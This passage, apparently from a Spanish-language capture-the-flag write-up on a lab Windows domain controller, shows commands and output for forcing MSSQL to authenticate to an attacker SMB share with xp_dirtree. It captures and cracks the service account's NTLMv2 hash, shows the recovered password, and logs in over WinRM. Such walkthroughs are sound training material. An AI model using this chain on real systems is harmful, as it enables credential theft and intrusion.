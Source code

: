```shell

master                                                                                                                             

tempdb                                                                                                                             

model                                                                                                                              

msdb                
```
Dentro no encontramos información valiosa para poder entrar a la máquina, igualmente no podemos habilitar ninguna función que nos permita ejecutar comandos por falta de permisos. En este punto probamos robar el hashntlmv2 para eso usamos iniciamos un servicio por smb con una carpeta share compartida y después ejecutamos en mssql el comando `xp_dirtree '\\<attacker ip>\share'`, con esto podemos obtener el hash.

```shell
❯ sudo smbserver.py share ./ -smb2support
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.129.24.219,58025)
[*] AUTHENTICATE_MESSAGE (sequel\sql_svc,DC)
[*] User DC\sql_svc authenticated successfully
[*] sql_svc::sequel:aaaaaaaaaaaaaaaa:b71669beb048d28931cf15911aa6880d:0101000000000000805c805b5f49d901a4d3008e276e021c00000000010010005300760076004d007a0077<SNIP>
```
Lo crackeamos exitosamente con john.

```shell
❯ john -w=/usr/share/Seclists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REGGIE1234ronnie (sql_svc)
1g 0:00:00:03 DONE (2023-02-25 15:23) 0.2985g/s 3194Kp/s 3194Kc/s 3194KC/s REINJALDO..RBDSEX
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```
Al tener la contraseña intentamos revisar si el usuario está en el grupo remote management user, para eso revisamos con crackmapexec. Vemos que tenemos permisos para logearnos por lo que utilizamos `evil-winrm` y estamos dentro de la máquina.

```shell
❯ crackmapexec winrm 10.129.24.219 -u sql_svc -p REGGIE1234ronnie
SMB         10.129.24.219   5985   DC               [*] Windows 10.0 Build 17763 (name:DC) (domain:sequel.htb)
HTTP        10.129.24.219   5985   DC               [*] http://10.129.24.219:5985/wsman
WINRM       10.129.24.219   5985   DC               [+] sequel.htb\sql_svc:REGGIE1234ronnie (Pwn3d!)

❯ evil-winrm -i 10.129.24.219 -u sql_svc -p REGGIE1234ronnie
*Evil-WinRM* PS C:\Users\sql_svc\Documents> hostname
dc
*Evil-WinRM* PS C:\Users\sql_svc\Documents> whoami
sequel\sql_svc
```